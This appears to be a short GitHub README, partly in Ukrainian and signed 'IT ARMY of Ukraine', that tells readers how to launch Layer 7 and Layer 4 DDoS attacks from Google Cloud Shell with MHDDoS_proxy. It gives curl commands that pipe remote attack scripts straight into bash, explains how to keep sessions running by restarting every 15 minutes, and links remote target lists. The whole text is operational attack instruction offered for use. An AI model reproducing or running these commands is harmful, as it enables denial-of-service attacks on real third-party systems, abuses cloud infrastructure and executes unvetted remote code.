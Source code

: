 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Команди для запуску атаки 
по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell вмикаємо Ephemeral Mode (ставимо - "Завжди")

перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4




IT ARMY of Ukraine
